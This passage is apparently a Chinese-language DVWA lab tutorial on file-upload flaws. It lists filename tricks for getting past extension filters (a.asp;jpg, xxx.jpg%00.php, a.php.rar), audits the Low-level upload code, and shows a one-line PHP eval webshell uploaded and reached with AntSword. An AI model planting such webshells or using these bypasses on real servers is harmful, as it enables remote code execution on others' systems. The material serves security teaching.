2. **检查扩展名**
   
   > &emsp;&emsp;就是在文件被上传到服务端的时候，对于文件名的扩展名进行检查，如果不合法，则拒绝这次上传
* 原理：当浏览器将文件提交到服务器端的时候，服务器端会根据设定的黑白名单对浏览器提交上来的文件扩展名进行检测，如果上传的文件扩展名不符合黑白名单的限制，则不予上传，否则上传成功。***白名单策略是更加安全的，通过限制上传类型为只有我们接受的类型，可以较好的保证安全，因为黑名单我们可以使用各种方法来进行注入和突破***
* 绕过方法：
  1. 老版本的IIS6中的目录解析漏洞，如果网站目录中有一个 /.asp/目录，那么此目录下面的一切内容都会被当作asp脚本来解析
  2. 老板本的IIS6中的分号漏洞：IIS在解析文件名的时候可能将分号后面的内容丢弃，那么我们可以在上传的时候给后面加入分号内容来避免黑名单过滤，如 a.asp;jpg
  3. 旧版Windows Server中存在空格和dot漏洞类似于 a.php. 和 a.php[空格] 这样的文件名存储后会被windows去掉点和空格，从而使得加上这两个东西可以突破过滤，成功上传，并且被当作php代码来执行
  4. nginx(0.5.x, 0.6.x, 0.7 <= 0.7.65, 0.8 <= 0.8.37)空字节漏洞 xxx.jpg%00.php 这样的文件名会被解析为php代码运行（fastcgi会把这个文件当php看，不受空字节影响，但是检查文件后缀的那个功能会把空字节后面的东西抛弃，所以识别为jpg）
  5. apache1.x,2.x的解析漏洞，上传如a.php.rar a.php.gif 类型的文件名，可以避免对于php文件的过滤机制，但是由于apache在解析文件名的时候是从右向左读，如果遇到不能识别的扩展名则跳过，rar等扩展名是apache不能识别的，因此就会直接将类型识别为php，从而达到了注入php代码的目的

## Low
> 不会以任何方式检查正在上载的文件的内容，它信任所有上传的文件。
#### 源码审计
源码中basename(path,suffix)函数返回路径中的文件名部分，如果可选参数suffix为空，则返回的文件名包含后缀名，反之不包含。move_uploaded_file()函数将上传的文件移动到新位置，若成功则返回true，若失败则返回false。**可以发现源码对上传的文件直接移动，而文件的类型、内容没有任何的检查和过滤。**
```php
<?php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
?> 
```
#### 攻击方式
#### 0x01
直接上传一句话木马
```php
<?php @eval($_POST['cmd']); ?>
```
网页没有进行过滤，直接返回上传成功的信息。
#### 0x02
蚁剑连接，"../"代表后退一个目录。
![gJkDO.png](https://s3.jpg.cm/2021/02/18/gJkDO.png)
